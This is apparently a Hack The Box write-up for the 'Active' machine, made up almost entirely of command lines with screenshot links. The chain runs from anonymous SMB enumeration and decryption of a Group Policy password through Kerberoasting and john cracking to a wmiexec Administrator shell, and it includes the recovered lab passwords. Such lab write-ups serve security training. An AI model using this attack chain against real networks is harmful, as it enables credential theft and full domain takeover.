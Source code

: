 ```
nmap -sS -sC -sV -T5 -Pn 10.10.10.100
```
![image](https://github.com/regarmulia/HTB/assets/33616880/62eec5e6-380c-45c5-bc44-3bdb54c40f26)


```
enum4linux 10.10.10.100
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d7486643-ea46-46bb-b33a-6b865d78f206)


```
smbclient \\\\10.10.10.100\\Replication
anonymous
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6935ff75-0a3c-4efc-aabb-190a8a5c0482)

![image](https://github.com/regarmulia/HTB/assets/33616880/776f15e6-13c4-4caf-bbd4-ac9a9844bce6)

![image](https://github.com/regarmulia/HTB/assets/33616880/fceddd91-4474-4b35-aed0-60eb1ca4a232)


```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d3259bc4-f640-4b5a-afe6-ed7a44efb518)


```
ldapsearch -x -b "dc=active,dc=htb" -H ldap://10.10.10.100 -D SVC_TGS -w GPPstillStandingStrong2k18 > ldapsearch.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/64129b61-51f4-40b3-99c6-6317737bf90b)


```
cp /usr/share/doc/python3-impacket/examples/GetUserSPNs.py .
./GetUserSPNs.py active.htb/SVC_TGS -dc-ip 10.10.10.100 –request
john hash_admin -w=/usr/share/wordlists/rockyou.txt 
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d6a98c1f-8f1d-4498-8270-58fbae138d3f)


```
cp /usr/share/doc/python3-impacket/examples/wmiexec.py .
./wmiexec.py 'active/Administrator:Ticketmaster1968@10.10.10.100'
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d3c1ac09-596b-4154-a3c8-dd11e9b7d062)
